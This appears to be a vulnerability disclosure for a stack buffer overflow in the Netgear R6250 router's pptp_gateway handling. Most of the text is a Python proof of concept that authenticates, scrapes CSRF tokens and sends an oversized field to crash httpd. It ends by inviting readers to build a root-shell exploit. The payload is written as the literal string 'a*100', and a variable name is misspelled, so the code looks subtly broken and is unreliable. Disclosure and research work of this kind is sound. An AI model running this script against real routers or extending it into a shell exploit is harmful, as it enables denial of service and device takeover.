








# Netgear R6250 Buffer Overflow Vulnerability
There is a buffer overflow vulnerability in the Netgear R6250 router with Firmware Version 1.0.4.48.  

## Affected Product & Versions
Netgear R6250 V1.0.4.48  
(https://www.netgear.com/support/download/?model=R6250) Latest

## The Vulnerability
First, set the nvram value of pptp_gateway in the httpd binary at function sub_20640() via pptp.cgi
  

The function at address 17494 in the binary file 'acos_service' retrives the value of 'pptp_gateway' from nvram.Finally,the value of 'pprp_gateway' from nvram is concatenated to the sprintf function, which leads to a buffer overflow vulnerability.

## Recurring vulnerabilities and POC
First, boot the firmware via FirmAE:  

Then, log in to 192.168.1.1 and configure the username and password:

By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of httpd process.
<pre>
import requests
import base64
import re

target = '192.168.1.1'
username = 'admin'
passwd = 'Qwer1234'
username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/BAS_pptp.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/pptp.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "pptp_gateway": "a*100","wan_proto": "pptp","static_pptp_enable":"1"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/VLAN_IPTV.htm", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
</pre>

And you can write your own exp to get the root shell.